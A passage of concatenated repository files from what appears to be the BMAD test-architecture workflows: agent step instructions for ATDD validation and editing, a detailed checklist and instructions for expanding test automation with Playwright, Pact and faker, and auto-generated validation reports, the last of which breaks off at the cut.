## File: `src/workflows/testarch/bmad-testarch-atdd/steps-c/step-05-validate-and-complete.md`
```markdown
---
name: 'step-05-validate-and-complete'
description: 'Validate ATDD outputs and summarize'
outputFile: '{test_artifacts}/atdd-checklist-{story_id}.md'
---

# Step 5: Validate & Complete

## STEP GOAL

Validate ATDD outputs and provide a completion summary.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Validate against the checklist

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Validation

Use `checklist.md` to validate:

- Prerequisites satisfied
- Test files created correctly
- Checklist matches acceptance criteria
- Tests are designed to fail before implementation
- [ ] CLI sessions cleaned up (no orphaned browsers)
- [ ] Temp artifacts stored in `{test_artifacts}/` not random locations

Fix any gaps before completion.

---

## 2. Polish Output

Before finalizing, review the complete output document for quality:

1. **Remove duplication**: Progressive-append workflow may have created repeated sections — consolidate
2. **Verify consistency**: Ensure terminology, risk scores, and references are consistent throughout
3. **Check completeness**: All template sections should be populated or explicitly marked N/A
4. **Format cleanup**: Ensure markdown formatting is clean (tables aligned, headers consistent, no orphaned references)

---

## 3. Completion Summary

Report:

- Test files created
- Checklist output path
- Key risks or assumptions
- Next recommended workflow (e.g., implementation or `automate`)

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-05-validate-and-complete']
  lastStep: 'step-05-validate-and-complete'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-05-validate-and-complete'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-05-validate-and-complete'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Only apply edits explicitly requested by the user

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: selected output and user changes
- Focus: apply edits only

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Confirm Requested Changes

Restate what will be changed and confirm.

### 2. Apply Changes

Update the output file accordingly.

### 3. Report

Summarize the edits applied.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Changes applied and confirmed

### ❌ SYSTEM FAILURE:

- Unconfirmed edits or missing update
```

## File: `src/workflows/testarch/bmad-testarch-atdd/steps-v/step-01-validate.md`
```markdown
---
name: 'step-01-validate'
description: 'Validate workflow outputs against checklist'
outputFile: '{test_artifacts}/atdd-validation-report.md'
validationChecklist: '../checklist.md'
---

# Step 1: Validate Outputs

## STEP GOAL:

Validate outputs using the workflow checklist and record findings.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Validate against `{validationChecklist}`
- 🚫 Do not skip checks

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Write findings to `{outputFile}`

## CONTEXT BOUNDARIES:

- Available context: workflow outputs and checklist
- Focus: validation only
- Limits: do not modify outputs in this step

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Load Checklist

Read `{validationChecklist}` and list all criteria.

### 2. Validate Outputs

Evaluate outputs against each checklist item.

### 3. Write Report

Write a validation report to `{outputFile}` with PASS/WARN/FAIL per section.

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Validation report written
- All checklist items evaluated

### ❌ SYSTEM FAILURE:

- Skipped checklist items
- No report produced
```

## File: `src/workflows/testarch/bmad-testarch-automate/SKILL.md`
```markdown
---
name: bmad-testarch-automate
description: 'Expand test automation coverage for codebase. Use when user says "lets expand test coverage" or "I want to automate tests"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-automate/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-automate/checklist.md`
```markdown
# Automate Workflow Validation Checklist

Use this checklist to validate that the automate workflow has been executed correctly and all deliverables meet quality standards.

## Prerequisites

Before starting this workflow, verify:

- [ ] Framework scaffolding configured (playwright.config.ts or cypress.config.ts exists)
- [ ] Test directory structure exists (tests/ folder with subdirectories)
- [ ] Package.json has test framework dependencies installed

**Halt only if:** Framework scaffolding is completely missing (run `framework` workflow first)

**Note:** BMad artifacts (story, tech-spec, PRD) are OPTIONAL - workflow can run without them
**Note:** `automate` generates tests; it does not run `*atdd` or `*test-review`. If ATDD outputs exist, use them as input and avoid duplicate coverage.

---

## Step 1: Execution Mode Determination and Context Loading

### Mode Detection

- [ ] Execution mode correctly determined:
  - [ ] BMad-Integrated Mode (story_file variable set) OR
  - [ ] Standalone Mode (target_feature or target_files set) OR
  - [ ] Auto-discover Mode (no targets specified)

### BMad Artifacts (If Available - OPTIONAL)

- [ ] Story markdown loaded (if `{story_file}` provided)
- [ ] Acceptance criteria extracted from story (if available)
- [ ] Tech-spec.md loaded (if `{use_tech_spec}` true and file exists)
- [ ] Test-design.md loaded (if `{use_test_design}` true and file exists)
- [ ] PRD.md loaded (if `{use_prd}` true and file exists)
- [ ] **Note**: Absence of BMad artifacts does NOT halt workflow

### Framework Configuration

- [ ] Test framework config loaded (playwright.config.ts or cypress.config.ts)
- [ ] Test directory structure identified from `{test_dir}`
- [ ] Existing test patterns reviewed
- [ ] Test runner capabilities noted (parallel execution, fixtures, etc.)

### Coverage Analysis

- [ ] Existing test files searched in `{test_dir}` (if `{analyze_coverage}` true)
- [ ] Tested features vs untested features identified
- [ ] Coverage gaps mapped (tests to source files)
- [ ] Existing fixture and factory patterns checked

### Knowledge Base Fragments Loaded

- [ ] `test-levels-framework.md` - Test level selection
- [ ] `test-priorities.md` - Priority classification (P0-P3)
- [ ] `fixture-architecture.md` - Fixture patterns with auto-cleanup
- [ ] `data-factories.md` - Factory patterns using faker
- [ ] `selective-testing.md` - Targeted test execution strategies
- [ ] `ci-burn-in.md` - Flaky test detection patterns
- [ ] `test-quality.md` - Test design principles

---

## Step 2: Automation Targets Identification

### Target Determination

**BMad-Integrated Mode (if story available):**

- [ ] Acceptance criteria mapped to test scenarios
- [ ] Features implemented in story identified
- [ ] Existing ATDD tests checked (if any)
- [ ] Expansion beyond ATDD planned (edge cases, negative paths)

**Standalone Mode (if no story):**

- [ ] Specific feature analyzed (if `{target_feature}` specified)
- [ ] Specific files analyzed (if `{target_files}` specified)
- [ ] Features auto-discovered (if `{auto_discover_features}` true)
- [ ] Features prioritized by:
  - [ ] No test coverage (highest priority)
  - [ ] Complex business logic
  - [ ] External integrations (API, database, auth)
  - [ ] Critical user paths (login, checkout, etc.)

### Test Level Selection

- [ ] Test level selection framework applied (from `test-levels-framework.md`)
- [ ] E2E tests identified: Critical user journeys, multi-system integration
- [ ] API tests identified: Business logic, service contracts, data transformations
- [ ] Component tests identified: UI behavior, interactions, state management
- [ ] Unit tests identified: Pure logic, edge cases, error handling

### Duplicate Coverage Avoidance

- [ ] Same behavior NOT tested at multiple levels unnecessarily
- [ ] E2E used for critical happy path only
- [ ] API tests used for business logic variations
- [ ] Component tests used for UI interaction edge cases
- [ ] Unit tests used for pure logic edge cases

### Priority Assignment

- [ ] Test priorities assigned using `test-priorities.md` framework
- [ ] P0 tests: Critical paths, security-critical, data integrity
- [ ] P1 tests: Important features, integration points, error handling
- [ ] P2 tests: Edge cases, less-critical variations, performance
- [ ] P3 tests: Nice-to-have, rarely-used features, exploratory
- [ ] Priority variables respected:
  - [ ] `{include_p0}` = true (always include)
  - [ ] `{include_p1}` = true (high priority)
  - [ ] `{include_p2}` = true (medium priority)
  - [ ] `{include_p3}` = false (low priority, skip by default)

### Coverage Plan Created

- [ ] Test coverage plan documented
- [ ] What will be tested at each level listed
- [ ] Priorities assigned to each test
- [ ] Coverage strategy clear (critical-paths, comprehensive, or selective)

---

## Step 3: Test Infrastructure Generated

### Fixture Architecture

- [ ] Existing fixtures checked in `tests/support/fixtures/`
- [ ] Fixture architecture created/enhanced (if `{generate_fixtures}` true)
- [ ] All fixtures use Playwright's `test.extend()` pattern
- [ ] All fixtures have auto-cleanup in teardown
- [ ] Common fixtures created/enhanced:
  - [ ] authenticatedUser (with auto-delete)
  - [ ] apiRequest (authenticated client)
  - [ ] mockNetwork (external service mocking)
  - [ ] testDatabase (with auto-cleanup)

### Data Factories

- [ ] Existing factories checked in `tests/support/factories/`
- [ ] Factory architecture created/enhanced (if `{generate_factories}` true)
- [ ] All factories use `@faker-js/faker` for random data (no hardcoded values)
- [ ] All factories support overrides for specific scenarios
- [ ] Common factories created/enhanced:
  - [ ] User factory (email, password, name, role)
  - [ ] Product factory (name, price, SKU)
  - [ ] Order factory (items, total, status)
- [ ] Cleanup helpers provided (e.g., deleteUser(), deleteProduct())

### Helper Utilities

- [ ] Existing helpers checked in `tests/support/helpers/` (if `{update_helpers}` true)
- [ ] Common utilities created/enhanced:
  - [ ] waitFor (polling for complex conditions)
  - [ ] retry (retry helper for flaky operations)
  - [ ] testData (test data generation)
  - [ ] assertions (custom assertion helpers)

---

## Step 4: Test Files Generated

### Test File Structure

- [ ] Test files organized correctly:
  - [ ] `tests/e2e/` for E2E tests
  - [ ] `tests/api/` for API tests
  - [ ] `tests/component/` for component tests
  - [ ] `tests/unit/` for unit tests
  - [ ] `tests/support/` for fixtures/factories/helpers

### E2E Tests (If Applicable)

- [ ] E2E test files created in `tests/e2e/`
- [ ] All tests follow Given-When-Then format
- [ ] All tests have priority tags ([P0], [P1], [P2], [P3]) in test name
- [ ] All tests use data-testid selectors (not CSS classes)
- [ ] One assertion per test (atomic design)
- [ ] No hard waits or sleeps (explicit waits only)
- [ ] Network-first pattern applied (route interception BEFORE navigation)
- [ ] Clear Given-When-Then comments in test code

### API Tests (If Applicable)

- [ ] API test files created in `tests/api/`
- [ ] All tests follow Given-When-Then format
- [ ] All tests have priority tags in test name
- [ ] API contracts validated (request/response structure)
- [ ] HTTP status codes verified
- [ ] Response body validation includes required fields
- [ ] Error cases tested (400, 401, 403, 404, 500)
- [ ] JWT token format validated (if auth tests)

### Consumer Contract Tests / CDC (If `use_pactjs_utils` Enabled)

**Provider Endpoint Comments:**

- [ ] Every Pact interaction has `// Provider endpoint:` comment
- [ ] Comment includes exact file path to provider route handler, OR uses the TODO form when provider is inaccessible
- [ ] Comment follows format: `// Provider endpoint: <path> -> <METHOD> <route>` or `// Provider endpoint: TODO — provider source not accessible, verify manually`

**Provider Source Scrutiny:**

- [ ] Provider route handlers and/or OpenAPI spec read before generating each interaction
- [ ] Status codes verified against provider source (e.g., 201 not assumed 200)
- [ ] Field names cross-referenced with provider type/DTO definitions
- [ ] Data types verified (string ID vs number ID, date formats)
- [ ] Enum/union values extracted from provider validation schemas
- [ ] Required request fields and headers checked against provider validation
- [ ] Nested response structures match provider's actual response construction
- [ ] Scrutiny evidence documented as block comment in each test file

**CDC Quality Gates:**

- [ ] Postel's Law enforced: exact values in `withRequest`, matchers in `willRespondWith`
- [ ] Response matchers (`like`, `eachLike`, `string`, `integer`) used only in `willRespondWith`
- [ ] Provider state names are consistent with provider's state handler naming
- [ ] DI pattern used for consumer function imports (actual consumer code, not raw `fetch()`)
- [ ] One logical endpoint per Pact interaction (no multi-endpoint interactions)

### Component Tests (If Applicable)

- [ ] Component test files created in `tests/component/`
- [ ] All tests follow Given-When-Then format
- [ ] All tests have priority tags in test name
- [ ] Component mounting works correctly
- [ ] Interaction testing covers user actions (click, hover, keyboard)
- [ ] State management validated
- [ ] Props and events tested

### Unit Tests (If Applicable)

- [ ] Unit test files created in `tests/unit/`
- [ ] All tests follow Given-When-Then format
- [ ] All tests have priority tags in test name
- [ ] Pure logic tested (no dependencies)
- [ ] Edge cases covered
- [ ] Error handling tested

### Quality Standards Enforced

- [ ] All tests use Given-When-Then format with clear comments
- [ ] All tests have descriptive names with priority tags
- [ ] No duplicate tests (same behavior tested multiple times)
- [ ] No flaky patterns (race conditions, timing issues)
- [ ] No test interdependencies (tests can run in any order)
- [ ] Tests are deterministic (same input always produces same result)
- [ ] All tests use data-testid selectors (E2E tests)
- [ ] No hard waits: `await page.waitForTimeout()` (forbidden)
- [ ] No conditional flow: `if (await element.isVisible())` (forbidden)
- [ ] No try-catch for test logic (only for cleanup)
- [ ] No hardcoded test data (use factories with faker)
- [ ] No page object classes (tests are direct and simple)
- [ ] No shared state between tests

### Network-First Pattern Applied

- [ ] Route interception set up BEFORE navigation (E2E tests with network requests)
- [ ] `page.route()` called before `page.goto()` to prevent race conditions
- [ ] Network-first pattern verified in all E2E tests that make API calls

---

## Step 5: Test Validation and Healing (NEW - Phase 2.5)

### Healing Configuration

- [ ] Healing configuration checked:
  - [ ] `{auto_validate}` setting noted (default: true)
  - [ ] `{auto_heal_failures}` setting noted (default: false)
  - [ ] `{max_healing_iterations}` setting noted (default: 3)
  - [ ] `{use_mcp_healing}` setting noted (default: true)

### Healing Knowledge Fragments Loaded (If Healing Enabled)

- [ ] `test-healing-patterns.md` loaded (common failure patterns and fixes)
- [ ] `selector-resilience.md` loaded (selector refactoring guide)
- [ ] `timing-debugging.md` loaded (race condition fixes)

### Test Execution and Validation

- [ ] Generated tests executed (if `{auto_validate}` true)
- [ ] Test results captured:
  - [ ] Total tests run
  - [ ] Passing tests count
  - [ ] Failing tests count
  - [ ] Error messages and stack traces captured

### Healing Loop (If Enabled and Tests Failed)

- [ ] Healing loop entered (if `{auto_heal_failures}` true AND tests failed)
- [ ] For each failing test:
  - [ ] Failure pattern identified (selector, timing, data, network, hard wait)
  - [ ] Appropriate healing strategy applied:
    - [ ] Stale selector → Replaced with data-testid or ARIA role
    - [ ] Race condition → Added network-first interception or state waits
    - [ ] Dynamic data → Replaced hardcoded values with regex/dynamic generation
    - [ ] Network error → Added route mocking
    - [ ] Hard wait → Replaced with event-based wait
  - [ ] Healed test re-run to validate fix
  - [ ] Iteration count tracked (max 3 attempts)

### Unfixable Tests Handling

- [ ] Tests that couldn't be healed after 3 iterations marked with `test.fixme()` (if `{mark_unhealable_as_fixme}` true)
- [ ] Detailed comment added to test.fixme() tests:
  - [ ] What failure occurred
  - [ ] What healing was attempted (3 iterations)
  - [ ] Why healing failed
  - [ ] Manual investigation steps needed
- [ ] Original test logic preserved in comments

### Healing Report Generated

- [ ] Healing report generated (if healing attempted)
- [ ] Report includes:
  - [ ] Auto-heal enabled status
  - [ ] Healing mode (MCP-assisted or Pattern-based)
  - [ ] Iterations allowed (max_healing_iterations)
  - [ ] Validation results (total, passing, failing)
  - [ ] Successfully healed tests (count, file:line, fix applied)
  - [ ] Unable to heal tests (count, file:line, reason)
  - [ ] Healing patterns applied (selector fixes, timing fixes, data fixes)
  - [ ] Knowledge base references used

---

## Step 6: Documentation and Scripts Updated

### Test README Updated

- [ ] `tests/README.md` created or updated (if `{update_readme}` true)
- [ ] Test suite structure overview included
- [ ] Test execution instructions provided (all, specific files, by priority)
- [ ] Fixture usage examples provided
- [ ] Factory usage examples provided
- [ ] Priority tagging convention explained ([P0], [P1], [P2], [P3])
- [ ] How to write new tests documented
- [ ] Common patterns documented
- [ ] Anti-patterns documented (what to avoid)

### package.json Scripts Updated

- [ ] package.json scripts added/updated (if `{update_package_scripts}` true)
- [ ] `test:e2e` script for all E2E tests
- [ ] `test:e2e:p0` script for P0 tests only
- [ ] `test:e2e:p1` script for P0 + P1 tests
- [ ] `test:api` script for API tests
- [ ] `test:component` script for component tests
- [ ] `test:unit` script for unit tests (if applicable)

### Test Suite Executed

- [ ] Test suite run locally (if `{run_tests_after_generation}` true)
- [ ] Test results captured (passing/failing counts)
- [ ] No flaky patterns detected (tests are deterministic)
- [ ] Setup requirements documented (if any)
- [ ] Known issues documented (if any)

---

## Step 6: Automation Summary Generated

### Automation Summary Document

- [ ] Output file created at `{output_summary}`
- [ ] Document includes execution mode (BMad-Integrated, Standalone, Auto-discover)
- [ ] Feature analysis included (source files, coverage gaps) - Standalone mode
- [ ] Tests created listed (E2E, API, Component, Unit) with counts and paths
- [ ] Infrastructure created listed (fixtures, factories, helpers)
- [ ] Test execution instructions provided
- [ ] Coverage analysis included:
  - [ ] Total test count
  - [ ] Priority breakdown (P0, P1, P2, P3 counts)
  - [ ] Test level breakdown (E2E, API, Component, Unit counts)
  - [ ] Coverage percentage (if calculated)
  - [ ] Coverage status (acceptance criteria covered, gaps identified)
- [ ] Definition of Done checklist included
- [ ] Next steps provided
- [ ] Recommendations included (if Standalone mode)

### Summary Provided to User

- [ ] Concise summary output provided
- [ ] Total tests created across test levels
- [ ] Priority breakdown (P0, P1, P2, P3 counts)
- [ ] Infrastructure counts (fixtures, factories, helpers)
- [ ] Test execution command provided
- [ ] Output file path provided
- [ ] Next steps listed

---

## Quality Checks

### Test Design Quality

- [ ] Tests are readable (clear Given-When-Then structure)
- [ ] Tests are maintainable (use factories/fixtures, not hardcoded data)
- [ ] Tests are isolated (no shared state between tests)
- [ ] Tests are deterministic (no race conditions or flaky patterns)
- [ ] Tests are atomic (one assertion per test)
- [ ] Tests are fast (no unnecessary waits or delays)
- [ ] Tests are lean (files under {max_file_lines} lines)

### Knowledge Base Integration

- [ ] Test level selection framework applied (from `test-levels-framework.md`)
- [ ] Priority classification applied (from `test-priorities.md`)
- [ ] Fixture architecture patterns applied (from `fixture-architecture.md`)
- [ ] Data factory patterns applied (from `data-factories.md`)
- [ ] Selective testing strategies considered (from `selective-testing.md`)
- [ ] Flaky test detection patterns considered (from `ci-burn-in.md`)
- [ ] Test quality principles applied (from `test-quality.md`)

### Code Quality

- [ ] All TypeScript types are correct and complete
- [ ] No linting errors in generated test files
- [ ] Consistent naming conventions followed
- [ ] Imports are organized and correct
- [ ] Code follows project style guide
- [ ] No console.log or debug statements in test code

---

## Integration Points

### With Framework Workflow

- [ ] Test framework configuration detected and used
- [ ] Directory structure matches framework setup
- [ ] Fixtures and helpers follow established patterns
- [ ] Naming conventions consistent with framework standards

### With BMad Workflows (If Available - OPTIONAL)

**With Story Workflow:**

- [ ] Story ID correctly referenced in output (if story available)
- [ ] Acceptance criteria from story reflected in tests (if story available)
- [ ] Technical constraints from story considered (if story available)

**With test-design Workflow:**

- [ ] P0 scenarios from test-design prioritized (if test-design available)
- [ ] Risk assessment from test-design considered (if test-design available)
- [ ] Coverage strategy aligned with test-design (if test-design available)

**With atdd Workflow:**

- [ ] ATDD artifacts provided or located (manual handoff; `atdd` not auto-run)
- [ ] Existing ATDD tests checked (if story had ATDD workflow run)
- [ ] Expansion beyond ATDD planned (edge cases, negative paths)
- [ ] No duplicate coverage with ATDD tests

### With CI Pipeline

- [ ] Tests can run in CI environment
- [ ] Tests are parallelizable (no shared state)
- [ ] Tests have appropriate timeouts
- [ ] Tests clean up their data (no CI environment pollution)

---

## Completion Criteria

All of the following must be true before marking this workflow as complete:

- [ ] **Execution mode determined** (BMad-Integrated, Standalone, or Auto-discover)
- [ ] **Framework configuration loaded** and validated
- [ ] **Coverage analysis completed** (gaps identified if analyze_coverage true)
- [ ] **Automation targets identified** (what needs testing)
- [ ] **Test levels selected** appropriately (E2E, API, Component, Unit)
- [ ] **Duplicate coverage avoided** (same behavior not tested at multiple levels)
- [ ] **Test priorities assigned** (P0, P1, P2, P3)
- [ ] **Fixture architecture created/enhanced** with auto-cleanup
- [ ] **Data factories created/enhanced** using faker (no hardcoded data)
- [ ] **Helper utilities created/enhanced** (if needed)
- [ ] **Test files generated** at appropriate levels (E2E, API, Component, Unit)
- [ ] **Given-When-Then format used** consistently across all tests
- [ ] **Priority tags added** to all test names ([P0], [P1], [P2], [P3])
- [ ] **data-testid selectors used** in E2E tests (not CSS classes)
- [ ] **Network-first pattern applied** (route interception before navigation)
- [ ] **Quality standards enforced** (no hard waits, no flaky patterns, self-cleaning, deterministic)
- [ ] **Test README updated** with execution instructions and patterns
- [ ] **package.json scripts updated** with test execution commands
- [ ] **Test suite run locally** (if run_tests_after_generation true)
- [ ] **Tests validated** (if auto_validate enabled)
- [ ] **Failures healed** (if auto_heal_failures enabled and tests failed)
- [ ] **Healing report generated** (if healing attempted)
- [ ] **Unfixable tests marked** with test.fixme() and detailed comments (if any)
- [ ] **Automation summary created** and saved to correct location
- [ ] **Output file formatted correctly**
- [ ] **Knowledge base references applied** and documented (including healing fragments if used)
- [ ] **No test quality issues** (flaky patterns, race conditions, hardcoded data, page objects)
- [ ] **Provider scrutiny completed or gracefully degraded** for all CDC interactions — each interaction either has scrutiny evidence or a TODO marker (if `use_pactjs_utils` enabled)
- [ ] **Provider endpoint comments present** on every Pact interaction (if `use_pactjs_utils` enabled)

---

## Common Issues and Resolutions

### Issue: BMad artifacts not found

**Problem:** Story, tech-spec, or PRD files not found when variables are set.

**Resolution:**

- **automate does NOT require BMad artifacts** - they are OPTIONAL enhancements
- If files not found, switch to Standalone Mode automatically
- Analyze source code directly without BMad context
- Continue workflow without halting

### Issue: Framework configuration not found

**Problem:** No playwright.config.ts or cypress.config.ts found.

**Resolution:**

- **HALT workflow** - framework is required
- Message: "Framework scaffolding required. Run `bmad tea *framework` first."
- User must run framework workflow before automate

### Issue: No automation targets identified

**Problem:** Neither story, target_feature, nor target_files specified, and auto-discover finds nothing.

**Resolution:**

- Check if source_dir variable is correct
- Verify source code exists in project
- Ask user to specify target_feature or target_files explicitly
- Provide examples: `target_feature: "src/auth/"` or `target_files: "src/auth/login.ts,src/auth/session.ts"`

### Issue: Duplicate coverage detected

**Problem:** Same behavior tested at multiple levels (E2E + API + Component).

**Resolution:**

- Review test level selection framework (test-levels-framework.md)
- Use E2E for critical happy path ONLY
- Use API for business logic variations
- Use Component for UI edge cases
- Remove redundant tests that duplicate coverage

### Issue: Tests have hardcoded data

**Problem:** Tests use hardcoded email addresses, passwords, or other data.

**Resolution:**

- Replace all hardcoded data with factory function calls
- Use faker for all random data generation
- Update data-factories to support all required test scenarios
- Example: `createUser({ email: faker.internet.email() })`

### Issue: Tests are flaky

**Problem:** Tests fail intermittently, pass on retry.

**Resolution:**

- Remove all hard waits (`page.waitForTimeout()`)
- Use explicit waits (`page.waitForSelector()`)
- Apply network-first pattern (route interception before navigation)
- Remove conditional flow (`if (await element.isVisible())`)
- Ensure tests are deterministic (no race conditions)
- Run burn-in loop (10 iterations) to detect flakiness

### Issue: Fixtures don't clean up data

**Problem:** Test data persists after test run, causing test pollution.

**Resolution:**

- Ensure all fixtures have cleanup in teardown phase
- Cleanup happens AFTER `await use(data)`
- Call deletion/cleanup functions (deleteUser, deleteProduct, etc.)
- Verify cleanup works by checking database/storage after test run

### Issue: Tests too slow

**Problem:** Tests take longer than 90 seconds (max_test_duration).

**Resolution:**

- Remove unnecessary waits and delays
- Use parallel execution where possible
- Mock external services (don't make real API calls)
- Use API tests instead of E2E for business logic
- Optimize test data creation (use in-memory database, etc.)

---

## Notes for TEA Agent

- **automate is flexible:** Can work with or without BMad artifacts (story, tech-spec, PRD are OPTIONAL)
- **Standalone mode is powerful:** Analyze any codebase and generate tests independently
- **Auto-discover mode:** Scan codebase for features needing tests when no targets specified
- **Framework is the ONLY hard requirement:** HALT if framework config missing, otherwise proceed
- **Avoid duplicate coverage:** E2E for critical paths only, API/Component for variations
- **Priority tagging enables selective execution:** P0 tests run on every commit, P1 on PR, P2 nightly
- **Network-first pattern prevents race conditions:** Route interception BEFORE navigation
- **No page objects:** Keep tests simple, direct, and maintainable
- **Use knowledge base:** Load relevant fragments (test-levels, test-priorities, fixture-architecture, data-factories, healing patterns) for guidance
- **Deterministic tests only:** No hard waits, no conditional flow, no flaky patterns allowed
- **Optional healing:** auto_heal_failures disabled by default (opt-in for automatic test healing)
- **Graceful degradation:** Healing works without Playwright MCP (pattern-based fallback)
- **Unfixable tests handled:** Mark with test.fixme() and detailed comments (not silently broken)
```

## File: `src/workflows/testarch/bmad-testarch-automate/instructions.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# Test Automation Expansion

**Workflow ID**: `_bmad/tea/testarch/bmad-testarch-automate`
**Version**: 5.0 (Step-File Architecture)

---

## Overview

Expands test automation coverage by generating prioritized tests at the appropriate level (E2E, API, Component, Unit) with supporting fixtures and helpers.

Modes:

- **BMad-Integrated**: Uses story/PRD/test-design artifacts when available
- **Standalone**: Analyzes existing codebase without BMad artifacts

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture** for disciplined execution:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order without skipping

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `test_dir`, `source_dir`, `coverage_target`, `standalone_mode`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-preflight-and-context.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-automate/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-automate
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-automate
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-automate

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 7

**Step File Sizes:**

- steps-c/step-01-preflight-and-context.md: 113 lines [GOOD]
- steps-c/step-02-identify-targets.md: 85 lines [GOOD]
- steps-c/step-03-generate-tests.md: 76 lines [GOOD]
- steps-c/step-04-validate-and-summarize.md: 62 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- No templates found in workflow root
- Steps with outputFile in frontmatter:
  - steps-c/step-04-validate-and-summarize.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-automate/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-automate
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-automate
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-automate

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

